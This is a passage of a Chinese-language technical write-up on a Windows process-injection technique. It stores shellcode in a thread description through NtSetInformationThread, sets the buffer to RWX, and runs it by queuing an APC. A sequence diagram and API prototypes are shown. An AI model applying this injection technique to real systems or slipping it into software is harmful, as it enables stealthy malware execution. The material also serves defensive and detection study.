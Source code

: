 ```
   |                                  |             写入缓冲区地址
   |                                  |             到 PEB 未使用区域
   |                                  |                            |
   | ReadProcessMemory                |                            |
   | (PEB unused area)                |                            |
   |---------------------------------------------------------------->|
   |<----------------------------------------------------------------|
   | 返回：buffer_address             |                            |
   |                                  |                            |
   | VirtualProtectEx                 |                            |
   | (buffer, RWX)                    |                            |
   |---------------------------------------------------------------->|
   |                                  |                            |
   | Queue APC: Execute               |                            |
   |--------------------------------->|                            |
   |                                  |--------------------------->|
   |                                  |                   shellcode 执行
```

## 关键 API 和数据结构

### NtSetInformationThread

```c
typedef NTSTATUS (NTAPI *pNtSetInformationThread)(
    HANDLE ThreadHandle,
    THREADINFOCLASS ThreadInformationClass,  // 38 = ThreadNameInformation
    PVOID ThreadInformation,                  // UNICODE_STRING*
    ULONG ThreadInformationLength
);
```

**用法**：
```c
UNICODE_STRING ustr;
RtlInitUnicodeStringEx(&ustr, (PCWSTR)shellcode_buffer);
NtSetInformationThread(hThread, ThreadNameInformation, &ustr, sizeof(UNICODE_STRING));
```

**优势**：
- 可以设置任意字节序列（包括 NULL 字节）
- 不受标准 `SetThreadDescription` 的 Unicode 字符串限制

### NtQueueApcThreadEx2

```c
typedef NTSTATUS (NTAPI *pNtQueueApcThreadEx2)(
    HANDLE ThreadHandle,
    HANDLE UserApcReserveHandle,      // NULL
    ULONG QueueUserApcFlags,           // QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC
    PVOID ApcRoutine,                  // 要调用的函数
    PVOID SystemArgument1,             // 参数 1
    PVOID SystemArgument2,             // 参数 2
    PVOID SystemArgument3              // 参数 3
);
```
